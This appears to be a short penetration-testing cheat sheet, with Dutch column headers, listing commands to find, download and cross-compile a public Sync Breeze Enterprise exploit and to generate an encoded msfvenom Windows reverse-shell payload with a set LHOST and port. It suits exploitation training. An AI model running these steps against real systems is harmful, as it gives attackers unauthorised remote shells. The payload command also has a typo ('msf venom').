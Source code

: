 # 14.Fixing Exploits

| Categorie          | Commando                                                                                                                                           | Omschrijving                                  |   Voorbeeld |   Opmerkingen |
|:-------------------|:---------------------------------------------------------------------------------------------------------------------------------------------------|:----------------------------------------------|------------:|--------------:|
| Search exploit     | searchsploit "Sync Breeze Enterprise 10.0.28"                                                                                                      | Search an epxloit by name.                    |         nan |           nan |
| Local download     | searchsploit -m 42341                                                                                                                              | Download an exploit in the current directory. |         nan |           nan |
| Installing mingw   | sudo apt install mingw-w64                                                                                                                         | Command to install mingw-w64                  |         nan |           nan |
| Compiling to exe   | i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32                                                                                    | Command to compile to an exe                  |         nan |           nan |
| Generating payload | msf venom -p windows/shell_reverse_tcp LHOST=192.169.45.200 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" | Generating a payload for a buffer overflow    |         nan |           nan |
